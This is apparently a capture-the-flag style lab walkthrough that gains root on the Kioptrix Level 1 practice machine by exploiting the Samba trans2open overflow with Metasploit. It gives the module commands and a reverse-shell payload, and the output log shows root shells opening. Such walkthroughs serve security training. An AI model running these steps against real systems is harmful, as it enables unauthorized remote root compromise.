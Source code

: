 

# Gaining Root with Metasploit

### Attack the SMB

Recap:
	1. We did searchsploit samba 2.2 and found trans2open vulnerability

```
──(kali㉿kali)-[~]
└─$ searchsploit samba 2.2 | grep trans2open
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                                                     | osx/remote/9924.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                                | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)                                                                                                              | linux_x86/remote/16861.rb

```

Now lets try the metasploit (msfconsole) the trans2open

1. Execute `search trans2open`

```
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)


Interact with a module by name or index. For example info 3, use 3 or use exploit/solaris/samba/trans2open


```


2. Use the Option 1 (Linux Machine)

```
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > 

```

3. Set RHOSTS (the target)

```
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.68.6
RHOSTS => 192.168.68.6

```

4. Check the settings using `options` command

```
msf6 exploit(linux/samba/trans2open) > options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.68.6     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.68.8     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce

```

5. Run either `exploit` or `run`

6. If the session is closed or died. Check the payload option. As you see in the result of `options` command. The payload set is a staged `linux/x86/meterpreter/reverse_tcp`. Lets use the non staged if it will work (`linux/x86/shell_reverse_tcp')

```
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.68.8:4444 
[*] 192.168.68.6:139 - Trying return address 0xbffffdfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffcfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffbfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 1 closed.  Reason: Died
^[[B^[[B^[[B[*] 192.168.68.6:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.68.6
[*] 192.168.68.6 - Meterpreter session 2 closed.  Reason: Died

```

7. Set the payload - chose no staged - `linux/x86/shell_reverse_tcp`

```
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
    

```

8. Execute run. As you see here, we are succesfully connected and executed `whoami` and `hostname`
```
msf6 exploit(linux/samba/trans2open) > run

[*] Started reverse TCP handler on 192.168.68.8:4444 
[*] 192.168.68.6:139 - Trying return address 0xbffffdfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffcfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffbfc...
[*] 192.168.68.6:139 - Trying return address 0xbffffafc...
[*] 192.168.68.6:139 - Trying return address 0xbffff9fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff8fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff7fc...
[*] 192.168.68.6:139 - Trying return address 0xbffff6fc...
[*] Command shell session 4 opened (192.168.68.8:4444 -> 192.168.68.6:32805) at 2024-06-13 18:42:07 -0400

[*] Command shell session 5 opened (192.168.68.8:4444 -> 192.168.68.6:32806) at 2024-06-13 18:42:09 -0400
[*] Command shell session 6 opened (192.168.68.8:4444 -> 192.168.68.6:32807) at 2024-06-13 18:42:10 -0400
[*] Command shell session 7 opened (192.168.68.8:4444 -> 192.168.68.6:32808) at 2024-06-13 18:42:11 -0400
whoami
root
hostname
kioptrix.level1
```
